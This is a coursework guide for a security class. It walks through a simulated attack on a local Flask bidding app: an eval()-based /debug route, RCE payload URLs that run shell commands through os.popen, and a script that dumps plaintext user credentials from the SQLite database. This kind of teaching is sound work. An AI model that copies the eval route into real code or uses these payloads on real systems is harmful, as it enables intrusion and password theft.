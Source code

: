 # 🛠️ Simulated Attack Chain 1 Guide (Full Workflow)

This document provides a step-by-step simulation of a realistic attack chain that starts from a remote code execution (RCE) vulnerability exposed through a debug route and ends with leaking plaintext user passwords(or password hash value) stored in the SQLite database. This can be used as part of our Coursework 1: Simulate Attacks section.

## 🔗 Attack Flow Overview

```mermaid
graph TD
    A1[Access /debug endpoint with RCE] --> A2[List file system recursively]
    A2 --> A3[Identify instance/bidding.db via 'ls']
    A3 --> A4[Use simulate_attack_password_leak.py to extract credentials]
```
## ✅ Prerequisites

Flask app running locally on http://127.0.0.1:5000

A debug route enabled in app.py (for testing only!):

@app.route('/debug')
def debug():
    from flask import request
    q = request.args.get('q')
    return str(eval(q))

## 🧨 Step-by-Step Attack Simulation

### 🔍 Step 1: List server file system recursively

`http://127.0.0.1:5000/debug?q=__import__('os').popen('ls -R').read()`

This lists all folders and subfolders. Identify instance/ or other folders that may contain .db files.
![alt text](image-1.png)

### 🔍 Step 2: Search for .db files

`http://127.0.0.1:5000/debug?q=__import__('os').popen("find . -name '*.db'").read()`

Expected output:

`./instance/bidding.db`
![alt text](image.png)

### 🧪 Step 3: Run the leak script to extract plaintext passwords
Update DB_PATH in simulate_attack_password_leak.py with `instance/bidding.db`
run:
```
python simulate_attack_password_leak.py
```
You will see all usernames, emails, and plaintext passwords (because our system currently stores them insecurely).
![alt text](image-2.png)

### ✅ What to Submit (For Coursework 1 - Part 4)

Screenshots of each stage:

Directory listing via RCE

.db file identified and base64 dumped

Decoded .db file restored

Script output showing leaked user credentials

